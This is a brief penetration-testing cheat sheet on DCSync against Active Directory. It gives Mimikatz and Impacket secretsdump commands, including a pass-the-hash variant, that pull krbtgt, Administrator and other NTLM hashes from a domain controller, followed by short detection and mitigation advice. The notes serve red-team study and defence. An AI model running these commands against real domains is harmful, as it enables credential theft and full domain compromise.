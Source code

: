 # DCSync
**What:** Use Directory Replication API (MS-DRS) to request credential data (including NTLM hashes) from a Domain Controller as if you were a DC. Very powerful — can retrieve krbtgt and many account hashes.  
**Privileges needed:** Account must have `Replicating Directory Changes` / `Replicating Directory Changes All` or specific rights like `DS-Replication-Get-Changes` (often domain admin or accounts with replication rights).  
**Common tools:** Mimikatz `lsadump::dcsync`, Impacket `secretsdump.py` (when used with DCSync-capable account).
## Mimikatz (DCSync for krbtgt)

```bash
# in mimikatz (elevated)
privilege::debug lsadump::dcsync /domain:corp.local /user:krbtgt 
# or for a specific user 
lsadump::dcsync /domain:corp.local /user:Administrator
```

## Impacket secretsdump (DCSync-like retrieval when auth'd)

-  If you have an account with rights to replicate, secretsdump can be used to pull hashes from the DC:

```bash
 python3 /path/to/impacket/examples/secretsdump.py DOMAIN/replicator@10.0.0.1 
 
 # Or using an NTLM hash for the replicator account: 
 python3 /path/to/impacket/examples/secretsdump.py DOMAIN/replicator@10.0.0.1 -hashes :<NTLM_HASH>
 
```

**Detection / Mitigation**

- Detections: monitor for replication API usage from non-DC hosts, unusual LDAP/DRS calls, or events indicating `DS-Replication` activity from non-authorized principals.
    
- Mitigate by tightly controlling `Replicating Directory Changes` rights, auditing delegation/ACLs, and restricting which accounts can replicate directory data. Regularly rotate `krbtgt` (with care and planned steps) if compromise suspected.
